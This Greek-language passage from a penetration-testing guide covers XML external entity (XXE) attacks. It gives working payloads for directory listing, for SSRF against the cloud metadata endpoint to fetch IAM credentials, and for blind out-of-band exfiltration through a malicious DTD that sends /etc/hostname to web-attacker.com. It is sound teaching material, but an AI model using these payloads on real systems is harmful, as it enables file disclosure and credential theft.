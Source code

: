 ### Λίστα καταλόγου

Σε εφαρμογές βασισμένες σε **Java**, είναι πιθανό να είναι δυνατή η **λίστα των περιεχομένων ενός καταλόγου** μέσω του XXE με ένα payload όπως (απλά ζητώντας τον κατάλογο αντί του αρχείου):
```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```
### SSRF

Ένα XXE μπορεί να χρησιμοποιηθεί για την κατάχρηση ενός SSRF εντός ενός cloud
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
### Τυφλή SSRF

Χρησιμοποιώντας την **προηγουμένως σχολιασμένη τεχνική**, μπορείτε να κάνετε τον διακομιστή να αποκτήσει πρόσβαση σε έναν διακομιστή που ελέγχετε για να δείξει ότι είναι ευάλωτος. Αλλά, αν αυτό δεν λειτουργεί, ίσως είναι επειδή **δεν επιτρέπονται οι XML οντότητες**, σε αυτήν την περίπτωση μπορείτε να δοκιμάσετε να χρησιμοποιήσετε **παραμετρικές οντότητες XML**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
### "Τυφλή" SSRF - Εξαγωγή δεδομένων εκτός ζώνης

**Σε αυτήν την περίπτωση θα κάνουμε τον διακομιστή να φορτώσει ένα νέο DTD με ένα κακόβουλο φορτίο που θα στείλει το περιεχόμενο ενός αρχείου μέσω αίτησης HTTP (για πολλαπλές γραμμές αρχείων μπορείτε να δοκιμάσετε να το εξαγάγετε μέσω** _**ftp://**_**). Αυτή η εξήγηση βασίζεται στο** [**εργαστήριο Portswiggers εδώ**](https://portswigger.net/web-security/xxe/blind)**.**

Στο κακόβουλο DTD που δίνεται, πραγματοποιούνται μια σειρά από βήματα για την εξαγωγή δεδομένων:

### Παράδειγμα Κακόβουλου DTD:
Η δομή είναι η εξής:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Τα βήματα που εκτελούνται από αυτό το DTD περιλαμβάνουν:
